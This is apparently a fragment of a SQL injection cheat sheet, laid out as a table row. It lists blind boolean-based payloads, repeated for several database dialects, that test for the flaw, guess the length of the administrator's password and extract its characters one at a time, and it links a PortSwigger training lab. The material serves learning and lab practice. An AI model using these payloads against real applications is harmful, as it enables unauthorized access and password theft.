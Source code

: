 | Test if the webapp is vulnerable :<br>`z' AND '1'='1`<br>=> `Welcome Back!`<br>`z' AND '1'='2`<br>=> Nothing.<br><br>Guess length :<br><br>`x' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>5)='a`<br>=> `Welcome Back!`<br><br>Guess char at offset x :<br><br>`x' AND (SELECT SUBSTR(password,x,1) FROM users WHERE username='administrator')='z`<br>=> `Welcome Back !`<br><br>                                                                                                                                                                                                                                                                                                                                                                                                                                                                           | Test if the webapp is vulnerable :<br>`z' AND '1'='1`<br>=> `Welcome Back!`<br>`z' AND '1'='2`<br>=> Nothing.<br><br>Guess length :<br><br>`x' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>5)='a`<br>=> `Welcome Back!`<br><br>Guess char at offset x :<br><br>`x' AND (SELECT SUBSTRING(password,x,1) FROM users WHERE username='administrator')='z`<br>=> `Welcome Back !`<br><br>                                                                                                                                                                                                                                                                                                                                                                                                                                                                            | Test if the webapp is vulnerable :<br>`z' AND '1'='1`<br>=> `Welcome Back!`<br>`z' AND '1'='2`<br>=> Nothing.<br><br>Guess length :<br><br>`x' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>5)='a`<br>=> `Welcome Back!`<br><br>Guess char at offset x :<br><br>`x' AND (SELECT SUBSTRING(password,x,1) FROM users WHERE username='administrator')='z`<br>=> `Welcome Back !`<br><br>                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                         | Test if the webapp is vulnerable :<br>`z' AND '1'='1`<br>=> `Welcome Back!`<br>`z' AND '1'='2`<br>=> Nothing.<br><br>Guess length :<br><br>`x' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>5)='a`<br>=> `Welcome Back!`<br><br>Guess char at offset x :<br><br>`x' AND (SELECT SUBSTRING(password,x,1) FROM users WHERE username='administrator')='z`<br>=> `Welcome Back !`<br><br> | Conditionnal response.<br><br>1) Detect if the app is vulnerable to conditionnal response.<br>2) Guess the length of the password.<br>3) Bruteforce the password.<br>[See this Labs.](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses)                                                   |